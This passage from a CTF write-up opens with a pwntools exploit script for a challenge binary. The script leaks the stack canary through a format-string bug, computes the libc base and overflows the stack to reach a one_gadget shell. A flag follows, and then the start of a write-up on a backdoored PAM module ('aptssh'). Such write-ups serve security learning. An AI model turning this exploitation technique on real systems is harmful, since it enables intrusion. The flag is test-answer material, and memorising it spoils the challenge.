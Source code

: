 ```py
e = ELF("./chall")

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

p.sendline(b'%9$p')

p.recvuntil(b'$ ')
canary = int(p.recvuntil(b'W').strip(b'W'), 16)

log.info(f'canary: {hex(canary)}')

p.recvuntil(b'? ')
leak = int(p.recvline().strip(), 16)
log.info(f'leak: {hex(leak)}')

libc_base = leak - 0x61c90
log.info(f'libc_base: {hex(libc_base)}')
# gdb.attach(p)

og = libc_base + 0xe3b01

pay = b'a' * 0x18
pay += p64(canary)
pay += b'a' * 8
pay += p64(og)
pay += b'a' * (0x50 - len(pay))

p.sendlineafter(b'$', pay)

p.interactive()
```
{{< admonition note "flag" true >}}
`CTF{b5d4efc30c05420acb161eb92e120a902187d9710b297fba36d42528ea4ae09d}`
{{< /admonition >}}

## aptssh(41 solves)
{{< admonition info "Challenge Description" false >}}
Someone backdoored us with a strange PAM module, and now anyone can log in with aptssh:aptssh. I think they were able to get our flag.
{{< /admonition >}}

### Analysis
There was no binary for the challenge. After starting the challenge instance and connecting via ssh with the provided username and password, two base64 encoded binaries were provided.

One binary was the linked binary and one was the object file before linking.
Since the two operate in the same way, I will explain them as a single binary.

In the challenge description, it said that someone installed a backdoor via a suspicious PAM module. So I started analyzing it after thinking that this was that PAM module.
